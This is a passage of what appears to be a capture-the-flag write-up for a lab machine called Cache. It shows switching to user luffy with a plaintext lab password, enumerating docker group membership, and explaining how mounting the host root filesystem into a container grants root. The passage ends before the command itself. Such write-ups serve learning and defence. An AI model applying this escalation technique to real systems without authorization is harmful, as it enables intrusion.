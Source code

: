 ```
```

I can quit with Ctrl+], and then enter `quit` at the prompt.

### su

`su - luffy` works with this password (0ne\_p1ec3):

```

ash@cache:~$ su - luffy
Password: 
luffy@cache:~$

```

## Priv: luffy –> root

### Enumeration

As luffy, I’ll notice I’m in the `docker` group:

```

luffy@cache:~$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)

```

There are not containers currently running:

```

luffy@cache:~$ docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES

```

There is an Ubuntu image on Cache:

```

luffy@cache:~$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        7 months ago        64.2MB

```

### root Filesystem Access

Just like in [Olympus](/2018/09/22/htb-olympus.html#privesc-to-root-file-system-access), being in the `docker` group is easy access to the filesystem root. I’ll just start a container, and mount the root file system into it. The following command will start that image as a container, with the root filesystem of Cache mounted on `/mnt` inside the container, and drop me at a Bash shell:

